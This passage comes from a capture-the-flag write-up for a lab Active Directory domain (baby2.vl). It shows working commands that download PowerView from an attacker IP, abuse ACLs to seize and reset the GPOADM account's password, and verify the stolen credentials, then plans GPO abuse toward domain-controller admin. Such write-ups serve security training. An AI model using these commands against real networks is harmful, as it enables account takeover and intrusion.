 ## Abusing ACLs to Take Over GPOADM
Because I don’t have Amelia’s cleartext password on my box, I perform the ACL abuse from the victim host using PowerView (AMSI/Defender permitting; otherwise transcribe or proxy):

```powershell
# On the victim as Amelia
PS C:\Windows\system32> cd C:\programdata
PS C:\programdata> curl http://10.10.xx.xx/PowerView.ps1 -OutFile PowerView.ps1
PS C:\programdata> . .\PowerView.ps1

# Grant Amelia full rights over the GPOADM user object
Add-DomainObjectAcl -Rights All -TargetIdentity GPOADM -PrincipalIdentity Amelia.Griffiths


# Set a known password for GPOADM
$cred = ConvertTo-SecureString 'S3cure!Passw0rd' -AsPlainText -Force
Set-DomainUserPassword GPOADM -AccountPassword $cred
```

Back on my box, I verify the new creds:

```bash
❯ nxc smb dc.baby2.vl -u GPOADM -p 'S3cure!Passw0rd'
[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) (Null Auth:True)
[+] baby2.vl\GPOADM:S3cure!Passw0rd 
```

## From GPO Control to Local Administrators
![](/img/htb_img/BabyTwo_img/img4.png)

BloodHound also shows `GPOADM` has **GenericAll** over powerful GPOs. With that and a GUID of a linked GPO (e.g., Default Domain Policy), I can stage code execution via scheduled tasks and add `GPOADM` to the **local Administrators** group on the DC.
I use `pyGPOAbuse` for the heavy lifting:
